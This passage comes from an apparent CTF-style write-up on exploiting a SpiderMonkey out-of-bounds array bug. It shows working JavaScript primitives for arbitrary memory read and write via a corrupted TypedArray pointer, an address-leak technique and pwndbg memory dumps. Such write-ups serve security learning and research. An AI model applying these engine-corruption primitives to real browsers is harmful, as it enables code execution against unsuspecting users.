## Arbitrary Read/Write

With the information we get from the initial OOB r/w, we have 2 ways to get arbitrary r/w now:

1. Corrupt the data pointer of an Array after out OOB Array. I tried this initially and ran into some complications with how SM interprets the data. Basically, it is not easy to just point this data pointer to anywhere and read it as a double value (probably due to how SM values are represented, double values and pointers are differentiated, and the array will still interpret the pointer as an object, not a double value.) It was hard to get addrof primitive this way later on, so I switched to the 2nd method below.
2. Corrupt the data pointer of a TypedArray after out OOB Array. This is the more hassle-free way to read and write data, although we have a relatively small buffer, but 8 bytes is enough, and it is all raw bytes.

We have the following arb r/w primitives:

```js
arb_offset = 13;
x = new Array(1.1, 1.2, 1.3, 1.4);
victim_ta = new Uint8Array(8);

function arb_read(addr) {
    x.oob(arb_offset, addr.toDouble())
    // Not sure why I need this, maybe not.
    x.oob(arb_offset - 3, (0xfffa000000000000n).toDouble())
    read_ta = new BigUint64Array(victim_ta.buffer);
    return read_ta[0];
}

function arb_write(addr, val) {
    x.oob(arb_offset, addr.toDouble())
    for (var i = 0; i < 8; i++) {
        victim_ta[i] = Number((val >> BigInt(i * 8) & 0xffn))
    }
}
```

## (Weak) Addrof

Reading several resources [^2] [^3], I figured out that setting a property of an object to a target object will allow us to leak the address of that target object. In this case, I was trying to leak address of the JIT-ed function. We can see a pointer to this victim_obj in the memory of `victim_ta` now.

```js
victim_obj = sc;
victim_ta.what = victim_obj;
```

```
pwndbg> tele 0x19ed076007a8
00:0000│   0x19ed076007a8 —▸ 0x244aeada1180 —▸ 0x244aead74280 —▸ 0x555558f40280 (js::TypedArrayObject::classes+48) —▸ 0x5555578a441a ◂— ...
01:0008│   0x19ed076007b0 —▸ 0x19ed07600ad8 ◂— 0xfffe19ed076008c8
02:0010│   0x19ed076007b8 —▸ 0x555557870008 (emptyElementsHeader+16) ◂— 0xfff9800000000000
03:0018│   0x19ed076007c0 ◂— 0xfffa000000000000
04:0020│   0x19ed076007c8 ◂— 0x8
05:0028│   0x19ed076007d0 ◂— 0x0
06:0030│   0x19ed076007d8 —▸ 0x19ed076007e0 ◂— 0x4343434343434343 ('CCCCCCCC')
07:0038│   0x19ed076007e0 ◂— 0x4343434343434343 ('CCCCCCCC')
pwndbg> c
Continuing.
js> dumpObject(sc)
object 19ed076008c8
  global 244aead76090 [global]
  class 555558f3b1e0 Function
```

[^1]: https://firefox-source-docs.mozilla.org/setup/linux_build.html
[^2]: https://doar-e.github.io/blog/2018/11/19/introduction-to-spidermonkey-exploitation/#jsvalues-and-jsobjects
[^3]: https://webcache.googleusercontent.com/search?q=cache:ySfo3rNPA2kJ:https://labs.f-secure.com/blog/exploiting-cve-2019-17026-a-firefox-jit-bug/
[^4]: https://github.com/ducphanduyagentp/browser-pwn-advent-calendar/tree/main/06